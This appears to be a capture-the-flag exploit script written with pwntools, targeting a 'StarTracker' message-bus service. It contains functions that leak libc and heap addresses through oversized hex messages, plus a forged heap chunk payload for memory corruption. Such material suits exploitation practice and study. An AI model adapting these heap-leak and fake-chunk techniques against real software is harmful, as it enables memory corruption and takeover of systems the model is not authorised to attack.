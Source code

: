 ```python  
   if args.LOCAL:  
       return start_local(argv, *a, **kw)  
   else:  
       return start_remote(argv, *a, **kw)

gdbscript = '''  
break send_msg  
continue  
delete  
break __libc_malloc  
break __libc_free  
continue  
'''.format(**locals())

# -- Exploit goes here --

def post_message(con: tube, msg_id: int, pipe_id: int, is_hex: bool, msg:
bytes) -> None:  
   con.sendlineafter(b"> ", b"1")  
   con.sendlineafter(b"msg_id: ", str(msg_id).encode())  
   con.sendlineafter(b"pipe_id: ", str(pipe_id).encode())  
   if is_hex:  
       con.sendlineafter(b"hex: ", b"1")  
   else:  
       con.sendlineafter(b"hex: ", b"0")  
   con.sendlineafter(b"Message to post on bus: ", msg)

def recv_message(con: tube, pipe: int) -> bytes:  
   con.sendlineafter(b"> ", str(pipe+2).encode())  
   con.recvuntil(b"StarTracker: Testing Message\n")  
   msg = con.recvuntil(b" \n")[:-2]  
   return bytes([int(byte, 16) for byte in msg.split(b" ")])

def leak_libc(con):  
   post_message(con, 100, 0, True, b"f"*(0x3c1*2-3))  
   leak = recv_message(con, 0)  
   print(hexdump(leak))  
   bin_address = u64(leak[0x3d0:0x3d8])  
   print(f"bin for size of 0x790 is at {hex(bin_address)}")  
   return bin_address

def leak_heap(con: tube) -> None:  
   post_message(con, 100, 0, True, b"f"*(0x1e1*2+1))  
   leak = recv_message(con, 0)  
   print(hexdump(leak))  
   heap_base = u64(leak[0x1f8:0x200]) & ~0xfff  
   print(f"heap is at {hex(heap_base)}")  
   return heap_base

def change_fake_chunk(con: tube, size: int, forward: int, backward: int=0) ->
None:  
   payload = flat({  
           # size  
           0x388: size | 1,  
           # forward, backward  
           0x390: forward,  
           0x398: backward,  
           # prev size  
           0x3c0: size,  
       })  
   post_message(con, 100, 0, True, payload.hex().encode() + b"0")  
   recv_message(con, 0)

```